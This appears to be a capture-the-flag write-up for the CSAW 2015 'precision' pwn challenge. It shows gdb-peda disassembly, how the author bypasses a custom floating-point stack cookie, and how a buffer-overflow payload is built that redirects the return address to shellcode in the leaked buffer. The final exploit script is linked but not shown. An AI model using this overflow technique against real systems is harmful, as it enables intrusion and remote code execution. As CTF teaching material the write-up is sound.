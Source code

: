 ```yaml
---
layout: post
title: CSAW15 PWN 100
tags: [ctf, pwn, write-up]
---
```


### Challenge: [precision](../ctfs/csaw15/pwn/precision-100/precision_a8f6f0590c177948fe06c76a1831e650)

### Reversing
I start by doing a quick *file* and *checksec*
```bash
$ file ./precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
$ checksec ./precision
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I can see from the results of *checksec* that this 32-bit binary doesnt have any protections enabled. I run it once to see whats the binary doing.
```bash
$ ./precision
Buff: 0xffb40f28
AAAA
Got AAAA
```
When running the binary, it prints address of a buffer then it takes input. After sending input "AAAA\n", input gets printed back on the console and process terminates.
Considering we are dealing with a string echo here. I tried providing "%x\n" in the input.
```bash
$ ./precision
Buff: 0xffb40f28
%x
Got %x
```
So no format string vulnerability here. Then for the last black box test I provided a large string as input.
```bash
$ python -c 'print "A"*2000' | ./precision
Buff: 0xffa02b18
Nope
```
It didnt work either. Time to start real reversing.
Now opening binary in IDA makes it a little too easy so I will do it with gdb-peda *pdisass* to make it interesting.
```bash
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98] # cookie
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18] # Buff
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
End of assembler dump.
gdb-peda$ 
```
After the function prologue I can see some interesting instructions (fld, fstp). These instructions are used for handling floating point values. In a summary we can say that it takes a floating point value from ds:0x8048690 and puts it in a local variable ([esp+0x98]). After this *stdout* is cleared from a typical *setvbuf* call. "Buff: 0xXXXXXXXX" gets printed on the console and **__isoc99_scanf** starts waiting for the input. Then it compares the value in local variable ([esp+0x98]) to ds:0x8048690 and it both values are not same it prints "Nope" and exits. But if the values are the same then it prints "Got *string_input*" and main returns. So clearly this custom logic is placed to have a check for buffer overflow vulnerable **__isoc99_scanf** function.

### Exploitation
To exploit buffer overflow in **__isoc99_scanf**, I first have to bypass custom stack cookie logic in place. For this I can just look up the 8 bytes (floating point values are represented by 8 bytes in memory) value on ds:0x8048690 and while overflowing the local variable (stack cookie) provide the same value.
```bash
gdb-peda$ x/gx 0x8048690
0x8048690:	0x40501555475a31a5
```
Now we can craft our simple stack based overflow payload. Offset between our Buff and cookie local variable is 0x80.

`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40"`
I can add cyclic pattern from *gdb-peda* in above payload to determine offset to return address on stack, that is 12 here.
`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40" + "B"*12 + "XXXX"`
Here I can replace return address "XXXX" to address of our input buffer (Buff) provided when running the binary. And start of the payload buffer have be converted into a shellcode that will give us a shell.
This pwntools [script](../ctfs/csaw15/pwn/precision-100/sploit.py) will be doing all thing automated for us.
